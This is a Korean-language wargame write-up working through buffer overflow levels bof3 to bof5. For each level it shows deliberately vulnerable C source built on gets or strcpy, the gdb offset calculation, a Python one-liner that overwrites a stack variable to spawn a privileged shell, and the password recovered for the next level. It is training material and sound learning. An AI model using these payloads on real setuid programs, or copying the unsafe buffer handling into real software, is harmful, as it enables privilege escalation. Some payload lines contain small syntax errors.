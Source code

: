 #  bof3

<details>
<summary> bof3.c </summary>

```c
// AFTER => bof2.c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#define BUF_SIZE 128
#define KEY 0x61
#define G "\033[32m"
#define E "\033[0m"
#define Y "\033[33m"

// ASLR OFF
// STACK-PROTECTOR OFF
// STACK-EXECUTION OFF
// EXPLOIT $ (python -c "print 'x'*140+'a\x00\x00\x00'";cat) | ./bof3

void vuln() {
    int innocent;
    char buf[BUF_SIZE];

    puts(G "enter your name :)" E);
    gets(buf);
    printf("Hello " Y "%s" E "!\n", buf);

    if (innocent  == KEY) {
        if (setreuid(1004, 1004)) {
            perror("setuid");
            exit(1);
        }
        if (setregid(1004, 1004)) {
            perror("setgid");
            exit(1);
        }
        system("/bin/sh");
    }
}

int main(){
    vuln();
    return 0;
}
```
</details>

bof3.c를 확인해 보면 main에서 vuln()을 실행시키는 것과, vuln()에서 gets로 입력을 받아 buf에 저장하는 것을 확인할 수 있다. 그리고 innocent와 KEY를 비교하여 값이 같다면 system()을 실행시킨다.

따라서 gets는 버퍼오버플로우에 취약한 함수이므로 버퍼오버플로우를 이용하여 innocent에 KEY값과 같은 값으로 덮어씌어 보자.

일단 gdb를 통해 buf의 주소값이 0x00007fffffffe440인 것을 확인 할 수 있다.(call gets실행 후 rax값)

![](1.png) 

그리고 cmp하는 부분에서 innocent의 주소값을 확인할 수 있다.

![](2.png)

rbp-4의 주소값은 0x7fffffffe4cc이 나왔고 두 주소값의 차이는 140이다.

따라서 140만큼의 크기만큼 입력을 하고 KEY값인 a를 입력을 해주면 된다. 이때 리틀앤디언이기 때문에 00000061을 만들기 위해서 61 00 00 00으로 입력을 해주면 된다. 

```
python -c "print 'x'*140+'a\x00\x00\x00'";cat) | ./bof3
```
이렇게 입력을 해서 cat bof4.pw을 한 결과 43b07fce가 나왔다.


# bof4


<details>
<summary> bof4.c </summary>

```c
// AFTER => bof3.c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#define BUF_SIZE 128
#define KEY 0x12345678
#define R "\033[31m"
#define E "\033[0m"

// ASLR OFF
// STACK-PROTECTOR OFF
// STACK-EXECUTION OFF
// EXPLOIT $ ./bof4 `python -c "print 'x'*140'+\x78\x56\x34\x12'"`

void vuln(char * arg) {
    int innocent;
    char buf[BUF_SIZE];

    strcpy(buf, arg);
    printf("Hello %s!\n", buf);

    if (innocent == KEY) {
        if (setreuid(1005, 1005)) {
            perror("setuid");
            exit(1);
        }
        if (setregid(1005, 1005)) {
            perror("setgid");
            exit(1);
        }
        system("/bin/sh");
    }
}

int main(int argc, char *argv[]){
    if (argc < 2) {
        fputs(R "error :( this program needs some arguments\n" E, stderr);
        return 1;
    }
    vuln(argv[1]);
    return 0;
}
```
</details>

bof4 같은 경우 main함수에서 인자를 받아서 vuln으로 전달하는 것을 확인 할 수 있다.

vuln함수에서는 인자값을 strcpy함수를 이용해 buf로 복사하는 것을 확인 할 수 있다. 그러면 bof3과 비슷하게 진행이 될 것 같다.

gdb로 확인한 결과 buf의 주소값은 0x00007fffffffe420이고 innocent의 주고값은 0x7fffffffe4ac이다. 그 차이값은 140으로 동일하다.

```
./bof4 `python -c "print 'x'*140'+\x78\x56\x34\x12'"`
```
백쿼터(`)같은 경우 백쿼터사이의 명령의 결과를 변수로 만들어 준다.

이후 cat bof5.pw를 한 결과 b9947d7c가 나왔다.

# bof5


<details>
<summary> bof5.c </summary>

```c
// AFTER => bof4.c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#define BUF_SIZE 128
#define KEY 0x12345678
#define G "\033[32m"
#define Y "\033[33m"
#define E "\033[0m"

// ASLR OFF
// STACK-PROTECTOR OFF
// STACK-EXECUTION OFF
// EXPLOIT $ (python -c "print '/bin/sh\x00'+'x'*132+'\x78\x56\x34\x12'";cat) | ./bof5

void vuln() {
    int innocent;
    char buf[BUF_SIZE];

    puts(G "enter your name :)" E);
    gets(buf);
    printf("Hello " Y "%s" E "!\n", buf);

    if (innocent == KEY) {
        if (setreuid(1006, 1006)) {
            perror("setuid");
            exit(1);
        }
        if (setregid(1006, 1006)) {
            perror("setgid");
            exit(1);
        }
        system(buf);
    }
}

int main(){
    vuln();
    return 0;
}
```

</details>

전체적으로 bof2와 비슷하다. 다른 점은 system(buf)이 부분이 다르다는 것을 확인 할 수 있다.

일단 bof2, 3, 4와 마찬가지로 buf와 innocentf의 거리를 구하면 140이 나온다.    
buf의 주소값  : 0x00007fffffffe440   
innocent의 주소값 : 0x7fffffffe4cc

버퍼오버플로우를 이용하여 innocent와 KEY값을 동일하게 만들어 주면 system(buf)를 실행시킬 수 있다. 그럼 buf값에 /bin/sh의 값이 들어있다면 쉘을 실행 시킬수 있다.

```
(python -c "print '/bin/sh\x00'+'x'*132+'\x78\x56\x34\x12'";cat) | ./bof5
```
위와 같이 입력을 하는 이유는 /bin/sh\x00의 총 8개이므로 나머지 132개만큼 문자로 채우고 KEY값을 입력하여 innocent에 덮어 씌운다. 이때 x00 널값을 통해서 system()을 했을 경우 /bin/sh이후의 값은 참조하지 못하도록 한다.

cat bof6.pw의 결과는 62adb7bb이다.